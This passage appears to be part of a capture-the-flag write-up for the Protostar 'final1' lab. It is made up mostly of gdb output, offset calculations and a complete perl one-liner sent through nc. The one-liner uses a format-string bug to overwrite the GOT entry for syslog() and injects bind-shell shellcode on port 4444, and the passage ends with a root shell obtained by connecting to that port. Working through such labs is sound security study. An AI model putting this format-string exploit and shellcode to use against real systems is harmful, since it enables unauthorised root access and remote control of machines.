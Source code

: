 First, I made sure that the address of the "syslog()" function in the GOT was overwritten by the correct address, which it was.  I then realized that the length was off, since I changed the buffers to output the address.  This means the address would have to change, and the buffers as well again.  So I found the shellcode, and corrected the address: 

```
(gdb) x/8x 0xbffffa75+19
0xbffffa88:     0xe3f7db31      0x6a534353      0xb0e18902      0x5b80cd66
0xbffffa98:     0xff68525e      0x6a5c1102      0x89505110      0x58666ae1
```

It now needs to jump to 0xbffffa88 

```
(gdb) p 0x88 - 0x30
$1 = 88
(gdb) p 0xfa - 0x88
$2 = 114
(gdb) p 0xff - 0xfa
$3 = 5
(gdb) p 0x1ff - 0xfa
$4 = 261
(gdb) p 0xbf - 0xff
$5 = -64
(gdb) p 0x1bf - 0xff
$6 = 192
```

So our new buffer offsets should be 88, 114, 261, and 192: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."\x1c\xa1\x04\x08"."\x1d\xa1\x04\x08"."\x1e\xa1\x04\x08"."\x1f\xa1\x04\x08"."%88x%15\$n"."%114x%16\$n"."%261x%17\$n"."%192x%18\$n"."\nlogin B"."username X\nlogin "."\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"."\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

In the syslog, this showed: 

```
Feb  5 00:27:15 protostar final1: Login from 127.0.0.1:36781 as [X#034¡#004#010#035¡#004#010#036¡#004#010#037¡#004#010                                                                                 8049ee4                                                                                                           804a2a0                                                                                                                                                                                                                                                              804a220                                                                                                                                                                                        bffffc46] with password [Busername X]
```

No segfault means maybe it worked.  Let's attempt to connect on port 4444: 

```
user@protostar:/opt/protostar/bin$ nc localhost 4444
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
